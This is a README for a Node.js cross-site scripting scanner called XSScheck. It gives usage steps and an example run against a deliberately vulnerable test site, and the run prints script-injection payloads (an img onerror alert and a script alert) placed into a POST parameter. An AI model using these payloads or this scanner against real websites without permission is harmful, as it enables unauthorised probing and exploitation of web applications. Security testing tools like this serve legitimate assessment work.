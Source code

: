 # XSScheck

XSS scanner by nodejs


## Usage

At first, make sure `phantom.js` in your PATH, then
```
node xsscheck.js
```


## Example

```
 > node xsscheck.js
 
=======> XSScheck Power By VLVK <========

[?] Select method: [G]ET or [P]OST (G/P): P
[?] Enter URL:
[?] > http://testphp.vulnweb.com/search.php?test=query
[?] Enter Parameters:
[?] > searchFor=2&goButton=go
[?] Enter location of Payloadlist (payloads.txt)
[?] >
[?] Enter Threads of Testing (4)
[?] >
[+] Use Default payloads...
====================
Path: http://testphp.vulnweb.com/search.php?test=query
Method: Post
Parameter: searchFor
Payload: <img src="x" onerror="alert(/xss/)">
Data: searchFor=2<img src="x" onerror="alert(/xss/)">&goButton=go
====================
====================
Path: http://testphp.vulnweb.com/search.php?test=query
Method: Post
Parameter: searchFor
Payload: <script>alert(/xss/)</script>
Data: searchFor=2<script>alert(/xss/)</script>&goButton=go
====================
```


## Todo

- [x] concurrent_control
- [ ] 10&16hex_encode